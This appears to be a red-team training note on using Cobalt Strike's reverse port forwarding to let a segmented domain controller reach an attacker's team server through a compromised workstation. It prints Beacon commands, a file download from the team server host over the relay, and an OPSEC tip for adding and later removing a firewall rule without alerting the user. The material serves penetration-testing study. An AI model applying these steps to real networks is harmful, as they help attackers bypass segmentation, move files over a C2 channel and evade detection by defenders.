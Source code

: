 Reverse Port Forwarding allows a machine to redirect inbound traffic on a specific port to another IP and port.  A useful implementation of this allows machines to bypass firewall and other network segmentation restrictions, to talk to nodes they wouldn't normally be able to.  For example, we can use the console of **Domain Controller 2** to demonstrate that it does not have any outbound access to our team server.

```bash
#showing that we cant touch our teams server now
PS C:\Users\Administrator> hostname
dc-2

PS C:\Users\Administrator> iwr -Uri http://nickelviper.com/a
iwr : Unable to connect to the remote server
```

We know of course that Workstation 2 does - so we can create a reverse port forward to relay traffic between Domain Controller 2 and our team server.


```bash
# setup reverse port forward on wkstation 2 through beacon
beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

This will bind port 8080 on Workstation 2.

```bash
# checking to make sure listening
beacon> run netstat -anp tcp
TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Any traffic hitting this port will be tunnelled back to the team server over the C2 channel.  The team server will then relay the traffic to the forward host/port, then send the response back over Beacon.  Now, we can download the file via this port forward.

```powershell
# now on the dc we are able to hit the teams server

PS C:\Users\Administrator> iwr -Uri http://wkstn-2:8080/a

StatusCode        : 200
```

`OPSEC`

When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed.  Allowing access requires local admin privileges and clicking cancel will create an explicit block rule.

![[DISABLING WINDOWS DEFENDER.png]]


You must therefore create an allow rule **before** running a reverse port forward using either `netsh` or `New-NetFirewallRule`, as adding and removing rules does not create a visible alert.
```BASH
# adding firewall rule to let port 8080 in when hitting wkstation 2
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

You can delete a firewall rule later by its `DisplayName`.

```bash
beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"
```